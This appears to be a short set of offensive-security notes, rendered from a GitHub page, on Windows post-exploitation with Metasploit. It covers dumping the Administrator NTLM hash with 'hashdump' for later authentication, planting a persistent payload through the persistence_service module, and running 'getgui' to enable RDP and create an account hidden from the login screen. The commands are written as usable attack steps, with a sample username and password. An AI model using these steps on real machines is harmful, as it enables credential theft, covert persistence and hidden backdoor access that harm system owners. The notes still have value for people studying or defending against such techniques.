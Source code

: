 
>You can run the "hashdump"  command to get the Administrator NTLM hash. so with this you'll be able to authenticate with it later on

>You can check the mitre attack website also


<h4>Persistence via Services</h4>

```
use exploit/windows/local/persistence_service
set LPORT
set LHOST
set SESSION
exploit
```

>Take note of the path the payload was written to, so you can delete afterwards




<h4>Persistence via RDP</h4>

>A new account will be created, rdp will be enabled, making the username not visible on the login screen

To create a new account on the  meterpreter shell
```
run getgui -e -u blackanon -p hacker_123321
```
>"getgui" command is  used to check if the rdp is enabled, if it is disabled, the command will enable it, further more it creates a new user. it hides the  user from the login screen



 
